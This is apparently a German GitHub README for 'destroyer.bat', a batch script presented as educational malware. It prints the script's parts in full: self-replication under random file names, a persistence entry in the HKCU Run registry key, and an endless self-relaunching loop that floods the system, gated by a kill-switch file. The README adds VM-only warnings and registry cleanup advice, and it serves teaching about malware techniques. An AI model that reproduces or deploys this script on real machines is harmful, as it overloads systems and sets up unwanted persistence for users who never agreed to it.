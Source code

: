 Destroyer.bat - Malware zu Lehrzwecken
destroyer.bat ist ein einfaches Batch-Skript, das zur Demonstration grundlegender Techniken verwendet wird, die schädliche Software anwenden kann, um auf einem Windows-System persistiert zu bleiben und sich selbstständig zu replizieren. Das Programm zeigt, wie man Prozesse automatisiert, einen Autostart-Eintrag setzt und einfache Endlosschleifen erstellt.

Achtung: Dieses Programm dient ausschließlich Bildungszwecken und sollte nur in einer kontrollierten Umgebung wie einer virtuellen Maschine ausgeführt werden. Der unsachgemäße Einsatz dieses Programms kann zu einem instabilen oder unbrauchbaren System führen. Verwenden Sie dieses Skript nicht auf produktiven Systemen.

Funktionsweise
1. Kill-Switch Überprüfung
Das Programm beginnt, indem es überprüft, ob eine Datei namens kill_switch.txt auf dem Desktop des aktuellen Benutzers existiert. Diese Datei dient als eine Art "Not-Aus". Wenn die Datei nicht existiert, wird das Programm sofort beendet.

batch
Code kopieren
set KillSwitch="C:\User\%USERNAME%\Desktop\kill_switch.txt"
if NOT exist %KillSwitch% goto end
2. Selbstreplikation
Wenn der Kill-Switch vorhanden ist, kopiert sich das Programm selbst an einen neuen Speicherort auf dem Desktop des Benutzers. Dabei wird ein zufälliger Dateiname verwendet, der jedes Mal mit dem Befehl %Random% generiert wird.

batch
Code kopieren
set Dateipfad="C:\User\micha\Desktop\%Random%.bat"
copy "%~f0" %Dateipfad%
3. Autostart-Eintrag in der Windows-Registry
Das Skript fügt einen Eintrag in der Windows-Registry unter HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run hinzu, um sicherzustellen, dass es beim Neustart des Systems automatisch erneut ausgeführt wird. Der Schlüsselname ist ein zufälliger String, ebenfalls generiert mit %Random%.

batch
Code kopieren
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v %RANDOM% /t REG_SZ /d "%~f0" /f
4. Endlosschleife
Das Skript befindet sich dann in einer Endlosschleife, in der es sich immer wieder selbst startet, solange die Datei kill_switch.txt existiert. Sobald die Kill-Switch-Datei entfernt wird, beendet sich das Skript.

batch
Code kopieren
:loop
if NOT exist %KillSwitch% goto end
start "" "%~f0"
goto :loop
5. Programmende
Wenn die Kill-Switch-Datei entfernt wird, oder von Anfang an nicht existiert, wird das Programm mit dem Label :end beendet.

batch
Code kopieren
:end
exit
Nutzung
Voraussetzungen:
Windows-System
Batch-Scripting aktiviert (Standardmäßig unter Windows verfügbar)
Empfohlene Ausführung in einer virtuellen Maschine (VM)
Schritt-für-Schritt-Anleitung:
Skript ausführen: Führe die Datei destroyer.bat auf einem Windows-System aus.
Kill-Switch erstellen: Stelle sicher, dass sich die Datei kill_switch.txt auf dem Desktop des Benutzers befindet, um die Replikation zu aktivieren.
Endlosschleife stoppen: Entferne die Datei kill_switch.txt, um das Skript zu stoppen.
Vorsichtsmaßnahmen
Testumgebung verwenden: Da das Skript in einer Endlosschleife läuft und sich selbst repliziert, kann es leicht zu einer Überlastung des Systems führen. Es ist ratsam, das Programm in einer virtuellen Maschine (VM) auszuführen, um sicherzustellen, dass das Host-System nicht beschädigt wird.
Autostart entfernen: Nach der Ausführung des Programms verbleiben Registry-Einträge, die das Skript bei jedem Systemstart starten. Um diese zu entfernen, lösche die entsprechenden Einträge in der Windows-Registry (HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run).
Keine böswillige Nutzung: Dieses Skript soll ausschließlich für Bildungszwecke dienen. Jegliche böswillige Nutzung ist verboten und könnte rechtliche Konsequenzen nach sich ziehen.
Haftungsausschluss
Der Autor übernimmt keine Haftung für etwaige Schäden oder Datenverluste, die durch den unsachgemäßen Gebrauch dieses Skripts entstehen. Verwenden Sie das Skript verantwortungsvoll und nur in geeigneten Testumgebungen.

Weiterführende Themen
Batch-Skripting: Lernen Sie mehr über Batch-Skripte und deren Anwendungsmöglichkeiten unter Windows.
Malware-Techniken: Das Skript vermittelt grundlegende Techniken zur Autostart-Persistenz und Selbstreplikation, die oft in echter Malware zum Einsatz kommen.
